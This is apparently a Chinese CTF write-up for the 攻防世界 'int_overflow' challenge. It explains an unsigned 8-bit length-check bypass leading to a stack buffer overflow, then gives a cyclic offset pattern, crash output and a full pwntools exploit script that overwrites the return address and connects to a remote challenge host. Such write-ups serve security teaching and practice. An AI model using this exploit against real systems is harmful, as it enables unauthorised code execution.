


## 攻防世界
###  int_overflow

- 执行程序

  虚拟机里安装了 qemu 用户态，查看架构为32位程序。

```bash
cuc@cuc-VirtualBox:~/workspace/ctf$ file 51ed19eacdea43e3bd67217d08eb8a0e 
51ed19eacdea43e3bd67217d08eb8a0e: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=aaef797b1ad6698f0c629966a879b42e92de3787, not stripped
```

​	安装了所需的 libc 库

```bash
sudo apt-get install libgtk2.0-0:i386 libxtst6:i386 gtk2-engines-murrine:i386 lib32stdc++6 libxt6:i386 libdbus-glib-1-2:i386 libasound2:i386
```

​	程序启动指令

```bash
qemu-i386 ./51ed19eacdea43e3bd67217d08eb8a0e 
```

对于输入的密码，使用strlen函数计算密码长度，返回的数据类型是size_t，但重点不在这里，接受长度的变量v3是无符号int8类型，所以输入数据只要超过256的长度，就会出现溢出，并且能够绕过对输入长度的限制（处于 (3,8] 区间）成功只从 strcpy 函数。

```bash
size_t strlen ( const char * str );
```


- payload 构造原理
  - 判断条件对输入数据长度的要求是处于区间 [3,8)
  - 我们需要输入足够长的数据覆盖栈空间
  
   因此我们使用 k*255 + 5 长度的输入，最终存储的长度为5绕过检测。
  
  验证payload
  
  
  
- 定位偏移

  ```bash
  # 长度 255 + 5 = 300
  Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6
  ```

  ```
  Legend: code, data, rodata, value
  Stopped reason: SIGSEGV
  0x41386141 in ?? ()
  ```

  偏移为24

    ```bash
  cuc@cuc-VirtualBox:~/tools$ python2 patternLoCOffset.py -s 0x41613841
  [*] Create pattern string contains 1024 characters
  ok!
  [*] Exact match at offset 24
  [+] take time: 0.0079 s
    ```

  找到内部有个函数能直接打印 flag 的函数，地址 0x0804868B

  ```bash
  int what_is_this()
  {
    return system("cat flag");
  }
  ```

  

- exp

  > ```
  > pip3 install pwntools -i https://www.piwheels.org/simple/
  > ```

  ```python
  ##!/usr/bin/env python
  from pwn import*
  
  #r=process('./51ed19eacdea43e3bd67217d08eb8a0e')
  r=remote("220.249.52.133",41723)
  
  system_adr = 0x0804868B
  payload = flat([24*'A',p32(system_adr),(260-24-4)*'A'])
  r.recvuntil("choice:")
  r.sendline('1')
  r.recvuntil("username:")
  r.sendline("atfwus")
  r.recvuntil("passwd:")
  r.sendline(payload)
  r.interactive()
  ```
  
  

## 安装pwntools

```bash
sudo apt-get update
sudo apt-get install -y python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools -i https://pypi.mirrors.ustc.edu.cn/simple 
```

## 问题

- 80386 和 i386的区别

- 为什么 只有有符号数才会发生溢出？

  > 涉及无符号数的计算永远不会溢出，因为不能用结果为无符号整数表示的结果值被该类型可以表示的最大值加 1 之和取模减（reduced modulo）

- size_t 函数是变量类型进行 `sizeof` 运算的结果。

  > 当传入数据为负数，数据被用于memcpy、strncpy函数，负数转为很大的无无符号整数。

  
